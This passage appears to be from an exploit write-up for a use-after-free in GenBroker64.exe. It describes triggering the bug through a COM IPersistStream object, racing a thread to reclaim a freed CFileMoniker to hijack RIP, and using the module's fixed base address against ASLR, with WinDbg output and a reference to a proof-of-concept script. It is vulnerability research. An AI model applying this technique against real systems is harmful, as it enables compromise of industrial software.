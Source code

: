 
Woot, pretty awesome, we can trigger the above by instantiating a COM object that implements [IPersistStream](https://docs.microsoft.com/en-us/windows/win32/api/objidl/nn-objidl-ipersiststream) and have it triggers an exception when `Load` is invoked. You can find the trigger code in [paracosme-poc.py](src/paracosme-poc.py) which should crash the `GenBroker64.exe` process on the target. You can also enable page heap on the `GenBroker64.exe` to get a crash instantly.

### Getting RIP
When `VariantClear` is called on the variant, it will dispatch a virtual call to the `Release` method to release it. As this is a virtual call, the function reads a vtable and grabs a function pointer at a fixed offset and invokes it. Before this happens, we race the thread to reclaim the  `ole32!CFileMoniker` instance and replace it with controlled data (see `RacerThread_t`). As a result, we control the vtable pointer and are an instruction away from hijacking RIP. The below shows the corresponding assembly instruction where `@rcx` points to the chunk we have full control over:

```
0:011> u . l3
OLEAUT32!VariantClear+0x20b:
00007ffb`0df751cb  mov     rax,qword ptr [rcx]
00007ffb`0df751ce  mov     rax,qword ptr [rax+10h]
00007ffb`0df751d2  call    qword ptr [00007ffb`0df82660]

0:011> u poi(00007ffb`0df82660)
OLEAUT32!SetErrorInfo+0xec0:
00007ffb`0deffd40  jmp     rax
```

Because we have full control over the reclaimed chunk, we control `@rax`. In order to hijack the control flow, we need to set `@rax` to a pointer to the value we want to hijack `@rip` with. The big issue here is ASLR and we don't have an information disclosure.

Fortunately for us, the module `GenBroker64.exe` doesn't have a dynamic base which means we can use it to find a location that points to an interesting gadget to start our chain.

```
0:012> !dh genbroker64

File Type: EXECUTABLE IMAGE
FILE HEADER VALUES
    8664 machine (X64)
       7 number of sections
616D3B07 time date stamp Mon Oct 18 02:14:47 2021

       0 file pointer to symbol table
       0 number of symbols
      F0 size of optional header
      22 characteristics
            Executable
            App can handle >2gb addresses

OPTIONAL HEADER VALUES
            High entropy VA supported
            NX compatible
            Terminal server aware
```
